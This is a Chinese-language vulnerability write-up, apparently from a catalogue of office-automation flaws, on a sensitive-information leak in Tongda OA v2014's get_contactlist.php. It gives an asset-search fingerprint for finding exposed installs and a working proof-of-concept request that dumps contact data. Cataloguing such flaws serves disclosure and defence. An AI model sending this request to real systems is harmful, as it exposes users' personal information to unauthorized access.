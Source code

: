 ```yaml
---
article: false
title: OA产品-通达
icon: any
order: 2
---
```


# OA产品-通达

## 通达OA v2014 get_contactlist.php 敏感信息泄漏漏洞

### 漏洞描述
通达OA v2014 get_contactlist.php文件存在信息泄漏漏洞，攻击者通过漏洞可以获取敏感信息，进一步攻击

### 漏洞影响

* 通达OA v2014

### 网络测绘

```
app="TDXK-通达OA"
```

### 漏洞复现

版本信息

![image-20220912183540016.png](./assets/通达/image-20220912183540016.png)

验证POC
```
/mobile/inc/get_contactlist.php?P=1&KWORD=%25&isuser_info=3
```

![image-20220912183703454.png](./assets/通达/image-20220912183703454.png)

